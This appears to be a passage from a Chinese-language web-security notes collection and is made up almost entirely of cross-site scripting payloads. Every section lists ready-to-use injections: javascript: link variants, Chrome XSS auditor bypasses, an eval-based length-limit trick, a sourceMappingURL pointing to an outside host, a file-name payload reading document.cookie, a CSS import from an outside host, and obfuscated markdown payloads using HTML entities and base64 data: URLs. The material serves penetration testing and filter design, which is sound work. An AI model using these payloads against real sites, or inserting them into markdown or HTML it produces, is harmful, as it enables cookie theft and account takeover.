 - `<a href=javascript:/0/,alert(%22M%22)>M</a>`
- `<a href=javascript:/00/,alert(%22M%22)>M</a>`
- `<a href=javascript:/000/,alert(%22M%22)>M</a>`
- `<a href=javascript:/M/,alert(%22M%22)>M</a>`

## 3.2.9.5. Chrome XSS auditor bypass

- `?param=https://&param=@z.exeye.io/import%20rel=import%3E`
- `<base href=javascript:/M/><a href=,alert(1)>M</a>`
- `<base href=javascript:/M/><iframe src=,alert(1)></iframe>`

## 3.2.9.6. 长度限制

```
<script>s+="l"</script>
\...
<script>eval(s)</script>
```

## 3.2.9.7. jquery sourceMappingURL

> ```
> </textarea><script>var a=1//@ sourceMappingURL=//xss.site</script>
> ```

## 3.2.9.8. 图片名

> ```
> "><img src=x onerror=alert(document.cookie)>.gif
> ```

## 3.2.9.9. 过期的payload

- src=javascript:alert基本不可以用
- css expression特性只在旧版本ie可用

## 3.2.9.10. css

```
<div style="background-image:url(javascript:alert(/xss/))">
<STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>
```

## 3.2.9.11. markdown

```
[a](javascript:prompt(document.cookie))
[a](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))
<&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
![a'"`onerror=prompt(document.cookie)](x)
[notmalicious](javascript:window.onerror=alert;throw%20document.cookie)
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=)
![a](data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=)
```
